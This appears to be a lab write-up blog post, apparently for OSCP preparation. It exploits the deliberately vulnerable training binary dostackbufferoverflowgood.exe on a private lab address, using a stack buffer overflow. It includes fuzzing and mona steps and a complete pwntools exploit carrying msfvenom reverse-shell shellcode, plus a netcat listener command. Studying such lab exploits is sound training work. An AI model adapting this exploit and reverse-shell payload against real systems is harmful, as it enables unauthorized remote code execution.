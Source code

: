 ```yaml
---
layout: post
title:  "Writeup - dostackbufferoverflow.exe"
date:   2020-02-05 08:07:19
categories: [buffer-overflow,oscp-prep]
comments: true
---
```



To demonstrate binary used is dostackbufferoverflowgood.exe

## Steps to be followed for smashing stack bufferoverflow

Fuzzing --> finding offset --> Finding bad character --> RET to 'JMP ESP' --> Generating shell code

<!--more-->
#### Step 1: Fuzzing

In this step, we just need to find the buffer length or offset which crash the application and overwrite the EIP.

```python
from pwn import *
p = connect('192.168.1.8', 31337, level='error')
p.sendline('A'*1000)
p.recvline()
p.close()
```

#### Step 2: Finding the exact offset

Add working folder in mona:

`!mona config -set workingfolder C:\logs\%p`

In immunity debugger,

`!mona pc 1000` --> This will create a pattern of 1000 bytes

> **Tip:** Also remember sometimes pattern shown in the immunity debugger console may be truncated. So always copy from the log


Modify the python code
```python
from pwn import *
pattern = "" # update the pattern here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(pattern)
p.recvline()
p.close()
```

After executing the python script take the EIP value and execute the following command to find the exact offset:

`!mona findmsp <EIP VALUE>` (or)
`!mona pattern_offset <EIP VALUE>`


#### Step 3: Finding bad characters

To find badcharacter, first we need to create bytearray.

`!mona bytearray` --> This will generate the byte array starting from \x00 to \xff

Modify the python code 

```python
from pwn import *

offset = "A"*<offset_value> # Replace the <offset_value> with the offset value that we obtained from Step 2
bytearray = "" # update the bytearray here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + 'BBBB' + bytearray)
p.recvline()
p.close()
```

Execute the python script

Compare the generated bytearray and bytearray after the BBBB end in the exe file using mona.

!mona compare -f C:\logs\dobufferoverflowgood\bytearray.bin -a <address_after_BBBB>

Now this will display the badcharacter.

> **TIP**: \x00 will always be the bad character. Some times if the program requires some special character like new-line feed('\n'), then the corresponding hex value will also be added to the badcharacter list.

#### Step 4: "RET to JMP ESP"

This step is important to control the flow of the program. We need to find the `JMP ESP ` statement in the program and also its address should not contain the bad characters.

`!mona jmp -r esp -cpb "\x00\x0A" ` (or)

`msf-nasm_shell` and find the hex value of `JMP ESP` which is `\xff\xe4`

Then execute the command
`!mona find "\xff\xe4" -m <your.exe>`

Add the value in little endianess format to the python program .


#### Step 5: Generating the shell code

This is the final step. Use msfvenom to generate shell code.

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -a x86 -b "\x00\x0A"`

So our final python program look like this

```python
from pwn import *

#offset = 146
#badchar = \x00\x0a
#jmpesp = 080414c3
nops = "\x90"
offset = "A"*146

shellcode = (
"\xba\x84\xf5\xee\x0c\xda\xd9\xd9\x74\x24\xf4\x5f\x29\xc9\xb1"
"\x52\x83\xc7\x04\x31\x57\x0e\x03\xd3\xfb\x0c\xf9\x27\xeb\x53"
"\x02\xd7\xec\x33\x8a\x32\xdd\x73\xe8\x37\x4e\x44\x7a\x15\x63"
"\x2f\x2e\x8d\xf0\x5d\xe7\xa2\xb1\xe8\xd1\x8d\x42\x40\x21\x8c"
"\xc0\x9b\x76\x6e\xf8\x53\x8b\x6f\x3d\x89\x66\x3d\x96\xc5\xd5"
"\xd1\x93\x90\xe5\x5a\xef\x35\x6e\xbf\xb8\x34\x5f\x6e\xb2\x6e"
"\x7f\x91\x17\x1b\x36\x89\x74\x26\x80\x22\x4e\xdc\x13\xe2\x9e"
"\x1d\xbf\xcb\x2e\xec\xc1\x0c\x88\x0f\xb4\x64\xea\xb2\xcf\xb3"
"\x90\x68\x45\x27\x32\xfa\xfd\x83\xc2\x2f\x9b\x40\xc8\x84\xef"
"\x0e\xcd\x1b\x23\x25\xe9\x90\xc2\xe9\x7b\xe2\xe0\x2d\x27\xb0"
"\x89\x74\x8d\x17\xb5\x66\x6e\xc7\x13\xed\x83\x1c\x2e\xac\xcb"
"\xd1\x03\x4e\x0c\x7e\x13\x3d\x3e\x21\x8f\xa9\x72\xaa\x09\x2e"
"\x74\x81\xee\xa0\x8b\x2a\x0f\xe9\x4f\x7e\x5f\x81\x66\xff\x34"
"\x51\x86\x2a\x9a\x01\x28\x85\x5b\xf1\x88\x75\x34\x1b\x07\xa9"
"\x24\x24\xcd\xc2\xcf\xdf\x86\x2c\xa7\xde\x50\xc5\xba\xe0\x4d"
"\x49\x32\x06\x07\x61\x12\x91\xb0\x18\x3f\x69\x20\xe4\x95\x14"
"\x62\x6e\x1a\xe9\x2d\x87\x57\xf9\xda\x67\x22\xa3\x4d\x77\x98"
"\xcb\x12\xea\x47\x0b\x5c\x17\xd0\x5c\x09\xe9\x29\x08\xa7\x50"
"\x80\x2e\x3a\x04\xeb\xea\xe1\xf5\xf2\xf3\x64\x41\xd1\xe3\xb0"
"\x4a\x5d\x57\x6d\x1d\x0b\x01\xcb\xf7\xfd\xfb\x85\xa4\x57\x6b"
"\x53\x87\x67\xed\x5c\xc2\x11\x11\xec\xbb\x67\x2e\xc1\x2b\x60"
"\x57\x3f\xcc\x8f\x82\xfb\xec\x6d\x06\xf6\x84\x2b\xc3\xbb\xc8"
"\xcb\x3e\xff\xf4\x4f\xca\x80\x02\x4f\xbf\x85\x4f\xd7\x2c\xf4"
"\xc0\xb2\x52\xab\xe1\x96"
)
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + '\xc3\x14\x04\x08' + nops*20 + shellcode)
p.recvline()

#print('Byte sent ',length)
p.close()
```

Spawn a listner to get shell of the victim machine

`nc -nlvp 4444`




